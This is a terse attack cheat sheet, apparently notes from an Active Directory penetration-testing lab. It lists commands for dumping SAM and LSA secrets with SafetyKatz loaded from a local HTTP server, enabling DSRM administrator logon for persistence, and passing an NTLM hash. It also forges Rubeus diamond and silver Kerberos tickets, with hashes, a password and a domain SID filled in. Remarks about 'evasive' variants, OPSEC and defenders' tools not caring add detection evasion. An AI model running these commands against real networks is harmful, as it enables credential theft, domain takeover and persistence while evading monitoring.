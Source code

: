 
##### DRSM Admin
```powershell
winrs -r:dcorp-dc cmd 

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args token::elevate lsadump::evasive-sam exit"

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args token::elevate lsadump::lsa /patch exit"
```

PtH
```powershell
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f

Loader.exe -path SafetyKatz.exe "sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"

Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1

Enter-PSSession -ComputerName 172.16.2.1 -Authentication NegotiateWithImplicitCredential
```

Now run a DCSync attack on the DC itself because MDI dont care lol

```
a102ad5753f4c441e3af31c97fad86fd
```
##### Diamond Ticket
```powershell
Rubeus.exe diamond /krbkey:<aeskey>/user:student548 /password:cAyF6wTLSydnL2M7 /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

##### Silver Ticket
**OPSEC IN MIND** create a silver ticket with the ntlm of a computer account
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:b8f18421f92b4ef069829b1dfd0e10e9 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```